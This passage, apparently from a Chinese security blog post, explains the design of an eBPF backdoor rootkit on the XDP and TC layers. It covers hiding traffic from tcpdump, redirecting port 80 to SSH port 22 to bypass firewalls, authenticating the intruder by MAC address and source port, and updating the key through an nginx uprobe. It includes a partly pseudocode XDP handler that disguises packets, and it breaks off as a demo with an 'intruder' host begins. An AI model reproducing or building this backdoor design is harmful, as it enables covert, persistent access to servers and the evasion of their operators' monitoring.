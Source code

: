 XDP的BPF_PROG_TYPE_XDP程序类型，可以丢弃、修改、重传来自ingress的流量，但无法对egress起作用。TC的BPF_PROG_TYPE_SCHED_CLS除了拥有XDP BPF_PROG_TYPE_XDP的功能外，还可以对egress起作用。

  

前者最常用的场景就是做网络防火墙，用于网络流量清洗，效率比传统防火墙的高很多。后者常用于云原生场景下，容器、POD的网络监控、安全访问控制等。在这个例子中，要多进出流量都做调整，故两个hook点都需要有。同样，在XDP等阶段的hook，在这里做相关包逻辑处理，能更好的将通讯包隐藏，tcpdump等工具都抓不到。

  

**控制链路**

在后门场景里，可以在同样的位置，像eBPF的负载均衡一样，修改目标端口，从web nginx 的80改为SSHD的22，就可以实现网络数据的透传，绕开防火墙以及网络访问限制。

  

**认证密钥**

由于后门rootkit是在XDP\TC层工作，为了尽可能的简单，认证密钥最好只使用链路层、网络层、传输层的数据，即MAC信息、IP五元组之类。IP经常变动，MAC地址大概率是唯一的，以及设定一个固定的端口，这样更加唯一，作为rootkit的认证密钥即可实现。（需要client发起连接时，指定客户端的TCP端口）

  

**eBPF uprobe与eBPF map联动**

对于后门rootkit的密钥更新，利用eBPF也很好实现。比如，在nginx的场景中，uprobe实现hook http的函数，获取url参数中特定字符串，再将字符串保存到eBPF map里，就实现了密钥更新。

  

XDP/TC层的eBPF rootkit执行时，读取eBPF map里的密钥，进行比较运算。

  

**·** **实现流程**

举个XDP处理ingress的例子：

```c
 1SEC("xdp/ingress") 2int xdp_ingress(struct xdp_md *ctx) { 3struct cursor c; 4struct pkt_ctx_t pkt; 5 6//判断是否为SSHD的协议，不是则直接放行 
 7if (!(不是SSHD协议(&c))) { 8return XDP_PASS; 9}1011//判断rootkit是否匹配，网卡信息与来源端口是否匹配12hack_mac[] = "读取bpf map配置。"13if(密钥不匹配) {14return XDP_PASS;15}1617// 读取map，是否已经存在该client信息18struct netinfo client_key = {};19__builtin_memcpy(&client_key.mac, &pkt.eth->h_source, ETH_ALEN);2021struct netinfo *client_value;22client_value = bpf_map_lookup_elem(&ingress_client, &client_key);2324// 如果没找到伪装信息，则自己组装25if(!client_value) {26__builtin_memset(&client_value, 0, sizeof(client_value));27} else {28bpf_map_update_elem(&ingress_client, &client_key, &client_value, BPF_ANY);29}303132// 伪装mac局域网mac信息33pkt.eth->h_source[0] = 0x00;34...3536// 替换伪装ip来源 ，客户端端口不变3738// 更改目标端口39pkt.tcp->dest = htons(FACK_PORT);    //224041//计算TCP SUM layer 442ipv4_csum(pkt.tcp, sizeof(struct tcphdr), &csum);43pkt.tcp->check = csum;4445//写入已伪装的map，用于TC处理egress的原mac、IP信息还原。46return XDP_PASS;47}
```

比较简单的demo，即可实现 ingtrss侧TCP数据包的伪装。同样，TC层处理egress方向的数据包时，只需要对伪装包的原始信息作还原即可。整个流程如下图：  
![[Pasted image 20240920191011.png]]
![](data:image/svg+xml,%3C%3Fxml version='1.0' encoding='UTF-8'%3F%3E%3Csvg width='1px' height='1px' viewBox='0 0 1 1' version='1.1' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink'%3E%3Ctitle%3E%3C/title%3E%3Cg stroke='none' stroke-width='1' fill='none' fill-rule='evenodd' fill-opacity='0'%3E%3Cg transform='translate(-249.000000, -126.000000)' fill='%23FFFFFF'%3E%3Crect x='249' y='126' width='1' height='1'%3E%3C/rect%3E%3C/g%3E%3C/g%3E%3C/svg%3E)

这样，rootkit的通讯链路并不影响正常用户访问，也没有对原系统做改动，隐蔽性特别好。

**·** **视频演示**

笔者准备了三台主机测试：

1. 入侵者：cnxct-mt2，IP为172.16.71.1。
    